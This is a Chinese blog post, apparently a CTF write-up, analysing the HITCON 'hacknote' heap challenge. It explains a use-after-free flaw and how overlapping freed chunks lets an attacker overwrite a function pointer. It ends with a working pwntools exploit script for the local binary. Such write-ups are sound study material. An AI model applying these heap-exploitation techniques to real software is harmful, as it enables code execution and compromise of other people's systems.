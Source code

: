 ```yaml
---
layout:     post
title: “hitcon pwn writeUp（二）”
subtitle:   "lab10+堆题开始！ "
date: 2019-08-30 15:32:00
author:     "许大仙"
header-img: "img/post-bg-alitrip.jpg"
catalog: true
tags:
    - CTF
---
```


## lab10

学了一段how2heap，这是第一次真正意义上的做堆题。

本题是<u>UAF</u>的利用【触发原因：**free后的指针并未置0**】。

### 一.分析过程

首先checksec看保护机制，<u>32-bit程序</u>：

![保护机制](/img/hitcon2/lab10_1.png)

#### 功能分析

运行一下就能感受到，这是个堆题啊。可进行的操作有

>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
>
>​       HackNote       
>
>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
>
> 1. Add note          
> 2. Delete note       
> 3. Print note        
> 4. Exit              
>
>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

通过IDA反汇编可以得知，首先是根据输入的操作标号，分别调用`del_note()`，`print_note()`，`add_note()`，`exit(0)`函数。

##### 1.add_note

其中count作为note的计数器，notelist是指针数组，通过分析可以知道该指针是一个结构体指针，其中第一个字段`notelist[i]`为函数指针`print_note_content`，第二个字段`notelist[i]+1`为存储内容。

```go
struct note {//第一个字段malloc(8)，分配8B的空间，存储了4B函数指针（函数的首地址）和4B的content首地址
	void (*printnote)();  
	char *content ;       //第二个字段malloc(size)，存储了note的内容，指向堆块的mem地址
};
```

![add note](/img/hitcon2/lab10_3.png)

其中函数指针对应于

```go
int __cdecl print_note_content(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```

##### 2.del_note

这里存在两个造成漏洞的因素：

- 有free指向chunk mem指针和notelist[i]，但是未置为NULL。
  - 也就是`*content`还指向存储内容的chunk，但是这个chunk已经放入bin中。
  - 并没有把`*content`和设置为0x00
  - 同理`* notelist[i]`也没有置为0x00，故绕过了`if(notelist[i])`
- 并没有进行`count--`【故绕过了v1<0&&v1>=count】

综合以上两点，会造成UAF[use after free]漏洞。

![add note](/img/hitcon2/lab10_4.png)

##### 3.print_note

![add note](/img/hitcon2/lab10_5.png)

##### 4.magic

这个函数就直接调用了`cat flag`

#### 攻击思路

函数指针哎！！！还有一个现成的`cat flag`，这显然是想办法利用UAF漏洞将函数指针指向`magic`函数，调用了`print_note`就相当于调用了函数指针指向的函数【magic】，从而实现`cat flag`。

**UAF漏洞的常见效果就是会有两个指向同一个chunk的指针。**

如果我们需要想办法让函数指针不指向`print_note_content`，而是指向`magic()`，那么我们就需要对函数指针的字段进行修改。显然程序本身只有对content的修改，没有对函数指针的修改。

所以我们能想到的是，让<u>noteA的函数指针字段所在的chunk</u>，和<u>noteB的content所在的chunk</u>是**同一个chunk**【利用UAF】。就可以实现对noteB的content写，就是对noteA函数指针的修改。从而调用noteA的函数指针所指向的函数就是调用`magic`。

攻击具体过程为：

- 添加note1，大小为32（不要求是fastbin大小），内容随意
  - 添加一个note，会有两次malloc，得到2个chunk。
  - 一个为8B【实际为（8+4）align 8B = 16B=0x10】
  - 一个为32B【实际为40B=0x28】
- 添加note2，大小为32（不要求是fastbin大小），内容随意
- 添加note3，大小为32（不要求是fastbin大小），内容随意【这一步可以不要】
- del掉note1
- del掉note2

此时的fast_bin的分布是这样的：

> note2_notelist(8大小)-->-->note1_notelist(8大小)【对齐后16B】
> note2_content(32大小)-->note1_content(32大小**)**

**攻击！**申请note4，size大小为8，内容为magic的函数地址。

- 申请note4的时候首先会申请一个8大小的空间【malloc(8)】作为notelist[4]，这时note2_notelist(8大小)的空间给了这个块。
- 接着再申请size 大小的块作为content，这时note1_notelist(8大小)的空间给了这个块。【此时note4的content所在chunk和note1_notelist所在的chunk为同一个】
  - **但是注意之前的note1、note2、note3的content的大小对齐后，实际大小不等于16，是为了此时分配16B的note4 content时不会被分配到之前的content的bin上，而是分配到notelist的bin上**
  - 将notelist和content的链分开
- 同时向note4 content中写入magic的函数地址，也就相对应向note1_notelist(8大小)写入magic的函数地址
- 此时原本存放puts函数指针的地方被magic函数覆盖了，也就导致了接下来打印note1内容的时候会直接执行magic【调用notelist[1]的第一个字段指向的地址】
- 调用print_note打印note1的内容，执行magic函数【note1在[0,count]的范围内，允许打印】

#### exp

```python
from pwn import *
cn = process("./hacknote")
elf = ELF("./hacknote")

def addNote(size,content):
	cn.recvuntil("Your choice :")
	cn.sendline("1")
	cn.recvuntil("Note size :")
	cn.sendline(size)
	cn.recvuntil("Content :")
	cn.sendline(content)

def delNote(index):
	cn.recvuntil("Your choice :")
	cn.sendline("2")
	cn.recvuntil("Index :")
	cn.sendline(index)


def printNote(index):
	cn.recvuntil("Your choice :")
	cn.sendline("3")
	cn.recvuntil("Index :")
	cn.sendline(index)

addNote("32","note0") #note0
addNote("32","note1") #note1 【不必再add note2了】
delNote("0")
delNote("1")

magic_addr = p32(elf.symbols['magic']) #p32处理后为str类型，p32处理前为int类型
addNote("8",magic_addr) #read note0的函数指针，指向magic
printNote("0")
cn.interactive()
```

![add note](/img/hitcon2/lab10_6.png)

## lab11

